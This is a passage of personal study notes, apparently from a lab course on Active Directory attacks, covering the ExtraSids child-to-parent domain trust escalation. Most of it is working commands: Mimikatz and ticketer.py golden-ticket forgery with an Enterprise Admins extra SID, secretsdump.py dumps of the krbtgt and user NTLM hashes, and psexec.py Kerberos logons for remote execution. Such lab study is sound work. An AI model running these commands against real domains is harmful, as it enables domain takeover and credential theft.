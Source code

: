 Creating Golden Ticket with Mimikatz:
```Powershell
# ..89 is the domain sid, ..114-519 is the group sid
mimikatz> kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify its in memory:
klist
```

### ExtraSids Attack - From Linux

Getting the KRBTGT Account's NT Hash:
```sh
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

I would just use PowerView on a Windows box to get the SIDs  

Constructing a Golden Ticket using ticketer.py:
```sh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

This ticket gets saved as a `.ccache` file  
We can set the `KRB5CCNAME` environment variable to tell the system to use this file for Kerberos authentication attempts:  
```sh
export KRB5CCNAME=hacker.ccache 
```

Now we can use something like `psexec.py` with the `-k` flag:
```sh
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

# If you are not doing DNS with the domain, you may need to add all of the following to /etc/hosts:
# 172.16.5.5 academy-ea-dc01.inlanefreight.local
# 172.16.5.240 LOGISTICS.INLANEFREIGHT.LOCAL
# 172.16.5.5 INLANEFREIGHT.LOCAL
```

Similarly, we could also use secretsdump.py again to get some user's NTLM hash:
```sh
secretsdump.py logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user INLANEFREIGHT/bross
```

<br />

## Attacking Domain Trusts - Cross-Forest Trust Abuse
